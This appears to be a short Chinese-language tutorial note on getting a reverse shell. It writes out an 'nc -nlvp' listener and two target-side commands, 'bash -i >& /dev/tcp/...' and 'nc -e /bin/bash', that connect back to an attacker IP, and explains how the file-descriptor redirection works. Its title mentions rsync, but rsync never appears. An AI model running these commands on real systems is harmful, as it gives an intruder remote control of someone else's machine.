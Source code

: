 # rsync 进行 反弹shell

攻击主机： 192.168.1.19
目标主机： 192.168.1.5

## 实现方法一：

攻击主机： 192.168.1.19
监听端口： nc -nlvp 4444

目标主机： 192.168.1.5
bash -i >& /dev/tcp/192.168.1.19/4444 0>&1

```
文件描述符
已知Linux下存在三种文件描述符：

0 - stdin 标准输入，使用< 或 <<
1 - stdout 标准输出，使用> 或 >>
2 - stderr 标准错误输出，使用2或者2>>
&>的含义
反弹shell中的&没有固定含义，放在>后面的&，表示重定向的目标不是一个文件，而是一个文件描述符。

当>&后面接文件时，表示将标准输出和标准错误输出重定向到文件
当>&后面接文件描述符时，表示将前面的文件描述符重定向到后面的文件描述符

反弹shell语句含义
bash -i表示在本地打开一个bash，/dev/tcp/VPS_IP/VPS_Port中/dev/tcp/是Linux中的一个特殊设备，打开这个文件就相当于发出了一个socket调用，建立一个socket连接，>& /dev/tcp/VPS_IP/VPS_Port表示将标准输出和标准错误输出重定向到这个文件上，即传递给远程，如果远程开启了对应端口的监听，就会接收到这个bash的标准输出和标准错误输出。

此时在本地输入命令，本地是看不到输入的内容的，因为输入设备输入的命令和输出以及错误输出的内容已经被传递到远程上。

0>&1表示将标准输入重定向到标准输出，然而此时标准输出已重定向到/dev/tcp/VPS_IP/VPS_Port这个文件，也就是远程，那么标准输入也就重定向到了远程，所以可以直接在远程输入了。

```

## 实现方法二：

攻击主机： 192.168.1.19
监听端口： nc -nlvp 4444

目标主机： 192.168.1.5
nc -e /bin/bash 192.168.1.19 4444

```
-e后面跟的参数是在创建连接后执行的程序，在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程。
```


